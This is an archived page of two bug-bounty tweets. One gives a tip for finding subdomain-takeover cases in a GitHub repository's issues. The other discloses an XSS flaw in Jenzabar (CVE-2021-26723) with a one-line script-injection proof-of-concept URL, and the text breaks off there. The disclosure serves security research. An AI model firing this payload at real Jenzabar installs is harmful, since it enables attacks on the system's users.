 
---

# EdOverflow
**https://twitter.com/EdOverflow/status/1358441647059664898 _at 2021-02-07 15:45:01_**
<blockquote>
Bug bounty tip: is:issue label:Vulnerable and is:issue label:"Edge case" are your friends on https://t.co/MzqhpK3mJT. :) https://t.co/QUqnMAhkHW
</blockquote>

* https://github.com/EdOverflow/can-i-take-over-xyz/issues

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtomkfbXEAcx7ov.jpg" alt="http://pbs.twimg.com/media/EtomkfbXEAcx7ov.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358440787843772417 _at 2021-02-07 15:41:37_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;
